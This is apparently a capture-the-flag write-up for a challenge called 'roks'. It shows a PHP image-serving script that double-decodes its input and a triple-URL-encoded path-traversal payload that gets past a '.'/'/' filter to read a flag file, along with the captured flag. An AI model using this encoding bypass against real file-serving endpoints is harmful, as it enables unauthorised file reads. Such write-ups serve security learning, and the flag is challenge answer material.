


# roks
> My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?

## About the Challenge
We were given a source code (You can download the source code [here](roks.zip)) and we got the website too. Here is the preview of the website



There is one button which will generate rock images by hitting `/file.php?image` endpoint. And as you can see in the network tab, `image7` is a file name. Which is we can predict this chall was about path traversal vulnerability

## How to Solve?
Let's check the source code! There are 2 files, `index.php` and `file.php`. Here is the content of `file.php`

```php
<?php
  $filename = urldecode($_GET["file"]);
  if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
  } else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
  }
?>
```

This PHP script takes a file name from the parameter called `file`, checks if there is `.` or `/` in the value of the parameter, and serves the corresponding image file with the correct MIME content type. If it detects an unsafe file name, it serves a default image instead. And as you can see, this code was vulnerable to path traversal, but this code using `urldecode()` PHP function twice. That's why to do path traversal, we need to URL encode our payload three times

```
http://roks.chal.imaginaryctf.org/file.php?file=%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566flag%25252Epng
```

Open the URL in your browser and then you will get a flag in the form of an image



```
ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}
```